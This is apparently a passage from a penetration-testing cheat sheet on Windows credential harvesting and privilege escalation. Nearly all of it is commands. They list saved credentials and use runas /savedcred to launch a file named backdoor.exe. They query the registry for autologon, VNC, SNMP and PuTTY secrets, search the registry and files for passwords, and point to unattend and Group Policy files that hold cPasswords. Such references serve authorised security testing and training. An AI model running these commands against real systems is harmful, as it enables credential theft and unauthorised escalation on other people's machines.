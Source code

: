 
#### Stored credentials

```sh
cmdkey /list

# if saved creds exist use runas to execute as that user
runas /savedcred /user:<USERNAME-OF-SAVED-CRED> C:\Temp\backdoor.exe
```

#### Get passwords from windows registry
```sh
# autologon creds
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
or,
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

#### Search for password in registry
```sh
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Search for password in common files 
```sh
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
```


#### Files that may contain passwords 
```sh
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
# sysbol policy files containing cPassword on a domain controller; 
# general locations: %SYSTEMROOT%\SYSVOL\sysvol 
# \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
```
